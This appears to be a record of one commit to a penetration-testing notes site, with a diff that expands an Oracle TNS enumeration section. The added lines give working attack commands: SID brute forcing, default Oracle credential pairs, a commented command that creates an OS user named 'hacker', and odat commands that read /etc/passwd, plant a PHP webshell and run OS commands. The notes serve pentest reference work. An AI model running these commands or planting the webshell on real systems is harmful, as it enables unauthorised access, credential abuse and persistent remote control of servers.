

Before and after one commit to v0idravl/hakiki, a Jekyll site: the page built from recon/service_enumeration.md, in a window 1280 px wide and 1400 px high, scrolled down 6824 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
service: expand Oracle TNS with manual sqlplus workflow; web: add phpMyAdmin exploitation
Oracle TNS:
- SID enumeration tools (oscanner, tnscmd10g)
- sqlplus connection with common default credentials
- SQL enumeration queries (users, privileges)
- odat file read/write/RCE commands

phpMyAdmin:
- Default credential variants
- FILE privilege: LOAD_FILE() and SELECT INTO OUTFILE webshell
- Reference to MySQL UDF RCE path

````diff
--- a/recon/service_enumeration.md
+++ b/recon/service_enumeration.md
@@ -315,11 +315,45 @@ Look for consecutive 18456 events: first with a recognizable username, then imme
 
 ```bash
 nmap --script oracle-tns-version,oracle-sid-brute -p 1521 $IP
+
+# SID enumeration (common SIDs: XE, ORCL, DB, ORACLE)
+tnscmd10g version -h $IP -p 1521
+oscanner -s $IP -P 1521     # SID + brute force
+
+# Full auto (PT ONLY)
+odat all -s $IP
 ```
 
-**PT ONLY — full auto scan:**
+**Manual enumeration (sqlplus):**
+
 ```bash
-odat all -s $IP     # enumerate SIDs, brute creds, test for RCE
+# Install: apt install oracle-instantclient-sqlplus
+sqlplus user/password@$IP/XE    # or ORCL, DB, ORACLE as SID
+
+# Default credentials to try:
+# sys:change_on_install  system:manager  scott:tiger  dbsnmp:dbsnmp  SYSMAN:sysman
+```
+
+```sql
+-- List users
+SELECT username FROM all_users ORDER BY username;
+
+-- Get current user privileges
+SELECT * FROM user_role_privs;
+SELECT * FROM user_sys_privs;
+
+-- Read OS files (if DBA or UTL_FILE access)
+SELECT * FROM v$version;
+
+-- Execute OS command (if Java stored procedures enabled + DBA)
+-- EXEC dbms_java.runjava('oracle/aurora/util/Wrapper c:\\windows\\system32\\cmd.exe /c "net user hacker pass /add"');
+```
+
+**PT ONLY — odat for file read/write/RCE:**
+```bash
+odat utlfile -s $IP -U user -P password -d XE --sysdba --getFile /etc/passwd
+odat utlfile -s $IP -U user -P password -d XE --sysdba --putFile /tmp shell.php '<?php system($_GET["cmd"]); ?>'
+odat java -s $IP -U user -P password -d XE --sysdba --exec "whoami"
 ```
 
 ---
````
Also changed, not shown: web/web_exploitation.md (+18 -0 lines).
